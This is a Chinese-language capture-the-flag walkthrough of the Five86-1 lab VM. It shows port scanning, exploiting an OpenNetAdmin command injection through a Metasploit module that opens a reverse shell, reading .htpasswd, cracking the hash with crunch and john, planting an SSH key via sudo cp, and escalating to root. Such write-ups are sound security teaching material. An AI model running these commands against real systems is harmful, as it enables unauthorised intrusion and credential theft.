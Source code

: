 
# 0x00 环境
攻击机：kali（192.168.1.28）<br />靶机：Five86-1（192.168.1.19）


# 0x01实战

## 端口扫描
```
nmap -sV -A -p- 192.168.1.19
```
![](https://img-blog.csdnimg.cn/864371a32c6c49bf8f0e7edc8afed22f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=i8wjF&originHeight=831&originWidth=1263&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到开放了22号端口SSH服务和80、10000端口HTTP服务

访问`http://192.168.1.19:80`是一个空白页面啥也没有<br />![](https://img-blog.csdnimg.cn/20ce58b769774382b37ede5549a2fea3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_19,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=zQQej&originHeight=203&originWidth=666&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

访问`https://192.168.1.19:10000`是一个登录页面<br />![](https://img-blog.csdnimg.cn/63529d504e394e159d757157dd7375ea.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=vMOaR&originHeight=628&originWidth=967&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看页面源码没什么可以利用的<br />![](https://img-blog.csdnimg.cn/5f24ba0519fa4c8eac98c90b003aab88.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=NVdEQ&originHeight=621&originWidth=1333&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 目录扫描
![](https://img-blog.csdnimg.cn/2a1be49a0681484299caa2015d38ed82.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Vi2HW&originHeight=371&originWidth=1120&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在80端口扫到/robots.txt文件，在浏览器访问<br />![](https://img-blog.csdnimg.cn/3c89fc786d0949c6abd921834cf2f111.png#crop=0&crop=0&crop=1&crop=1&id=wk66W&originHeight=145&originWidth=692&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

继续访问/ona，得到了一个不知道是什么页面的页面<br />![](https://img-blog.csdnimg.cn/5355d34dc1ec4e85a69a0fb89931a86c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=fdJ5l&originHeight=483&originWidth=1301&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在这个页面而我们可以看到`您不是最新版本您的版=v18.1.1最新版本=无法确定请下载最新版本。`说明我们的版本是老版本可能存在历史漏洞


## 漏洞发现
出于好奇点击右下方的here跳转到一个页面<br />![](https://img-blog.csdnimg.cn/76bada24b89a42dca9534fe18a3efdd2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ZvSjO&originHeight=774&originWidth=1110&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

通过上面的页面我们可以得知ona全称为OpenNetAdmin，查找历史漏洞
```
searchsploit OpenNetAdmin
```

![](https://img-blog.csdnimg.cn/8e88d82ff6b546d8bcadd9f70c7ac215.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=wmMva&originHeight=277&originWidth=1808&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到OpenNetAdmin 18.1.1版本存在命令注入漏洞


## 漏洞利用
启动MSF搜索OpenNetAdmin
```
search OpenNetAdmin
```
![](https://img-blog.csdnimg.cn/7a5e20ef692a49869c3a804f27e30f63.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ivI7f&originHeight=314&originWidth=1644&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

应用模块设置相关参数并执行，成功得到shell
```
msf6 > use 0
msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set rhosts 192.168.1.19
msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set lhost 192.168.1.28
msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > run
```

![](https://img-blog.csdnimg.cn/1eaf3eda555c4a3386c684222a6bbc88.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Zv291&originHeight=387&originWidth=1310&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看系统内核版本，没有什么可以利用的
```
cat /proc/version
cat /etc/issue
```

![](https://img-blog.csdnimg.cn/ae9af06ff712407e9ca4fa06c3749940.png#crop=0&crop=0&crop=1&crop=1&id=VmZVy&originHeight=179&originWidth=1731&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看具有suid权限的程序
```
find / -user root -perm -4000 -print 2>/dev/null
```
![](https://img-blog.csdnimg.cn/e0b051f65e28418c85c009f9dc1f632c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=DWtyU&originHeight=389&originWidth=1083&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

看见了exim4这让我想到了DC-8，查看exim的版本
```
www-data@five86-1:/opt/ona/www$ cd /usr/sbin/
www-data@five86-1:/usr/sbin$ exim --version
```
![](https://img-blog.csdnimg.cn/e4bb8939769c48a3906f07d3c39a1f03.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=RpK3y&originHeight=351&originWidth=1438&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

搜索漏洞发现没有适合这个版本的漏洞
```
searchsploit exim
```

![](https://img-blog.csdnimg.cn/89e9d814160248be851f6306399c65f5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=TX2GX&originHeight=781&originWidth=966&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

搜索一下有哪些文件是当前账户可以查看到的
```
find / -type f -user www-data
```
![](https://img-blog.csdnimg.cn/74ec446953f24328b94218aa4163d7da.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_19,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=owuqG&originHeight=345&originWidth=684&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

发现/var/www/html/reports/.htaccess我们可以访问

查看一下/var/www/html/reports/.htaccess
```
cat /var/www/html/reports/.htaccess
```
![](https://img-blog.csdnimg.cn/2b23076919564663affac6bb49aa8ea9.png#crop=0&crop=0&crop=1&crop=1&id=IT34i&originHeight=197&originWidth=861&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

看到了一个文件路径/var/www/.htpasswd，继续查看
```
cat /var/www/.htpasswd
```

![](https://img-blog.csdnimg.cn/0c28046c66b44483b54d5d740e24b120.png#crop=0&crop=0&crop=1&crop=1&id=hseI7&originHeight=183&originWidth=1033&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

得到了一个账户和密码的hash值并提示我们`一本标准字典可能会失败，此10个字符的密码使用以下字符集：aefhrt`也就是说标准的字典是无法破解的，密码是由`aefhrt`组成的十个字符


## 获取shell
使用crunch生成一个由`aefhrt`组成长度为十的字典https://www.freebuf.com/sectool/170817.html
```
crunch 10 10 aefhrt > pass
```
![](https://img-blog.csdnimg.cn/50b4d9d2ada54e25a1b50f2fc0952a50.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=xfTPL&originHeight=338&originWidth=1370&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用john破解
```
john --wordlist=pass test.txt
```
![](https://img-blog.csdnimg.cn/30a62f7ac5ec4910a8c1a54d37bc0547.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=EALzz&originHeight=325&originWidth=1335&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

成功得到密码fatherrrrr，成功登录SSH<br />![](https://img-blog.csdnimg.cn/9a4f45a34171478bbeddf1be678603bb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=jaz0w&originHeight=412&originWidth=1060&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 提权
查看你用户所具有的权限
```
sudo -l
```
![](https://img-blog.csdnimg.cn/b7024a8ed3494fe5811136e95498a502.png#crop=0&crop=0&crop=1&crop=1&id=LAmDy&originHeight=186&originWidth=1354&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到我们唯一能以jen身份无密码执行的命令是cp

在douglas的更目录发现了/.ssh/id_rsa.pub文件<br />![](https://img-blog.csdnimg.cn/16fde24965ac447095e10076406a91bb.png#crop=0&crop=0&crop=1&crop=1&id=iJVku&originHeight=160&originWidth=498&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

那么我能将id_rsa.pub文件cp到jen目录下的/.ssh/authorized_keys文件就能过实现免密登录jen
```
cp id_rsa.pub /tmp
cd /tmp
sudo -u jen cp id_rsa.pub /home/jen/.ssh/authorized_keys
```

![](https://img-blog.csdnimg.cn/cd8781e5d6984947a2eeebf02dba4b9d.png#crop=0&crop=0&crop=1&crop=1&id=Gc7cI&originHeight=169&originWidth=1024&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

登录jen用户<br />![](https://img-blog.csdnimg.cn/d7d803e8d9134945934ac24385c9e3a2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Chcm6&originHeight=387&originWidth=1051&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

登陆后显示`You have new mail.`那就去查看一下<br />![](https://img-blog.csdnimg.cn/b48462ca39e34848b38fad3145b940b7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=FZ8Aj&originHeight=276&originWidth=1798&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

显示moss的密码改为Fire!Fire!

登录moss账户<br />![](https://img-blog.csdnimg.cn/1f907110f0814d05839350d3103508b6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=QFN57&originHeight=413&originWidth=1039&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在moss账户下发现隐藏文件.game中有一个upyourgame程序具有root权限<br />![](https://img-blog.csdnimg.cn/56b7cc2e77c94fa3b7a0010cd459f40d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=nbpRO&originHeight=710&originWidth=1659&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

尝试执行upyourgame，执行之后回答几个问题莫名其妙得到root权限<br />![](https://img-blog.csdnimg.cn/8362a400b2a8419c978598da88bcd7a8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=wJU5s&originHeight=495&originWidth=887&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## final-flag
在root根目录下找到flag<br />![](https://img-blog.csdnimg.cn/7bd3b045675546689513fa5da836ff21.png#crop=0&crop=0&crop=1&crop=1&id=pTTYW&originHeight=169&originWidth=455&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
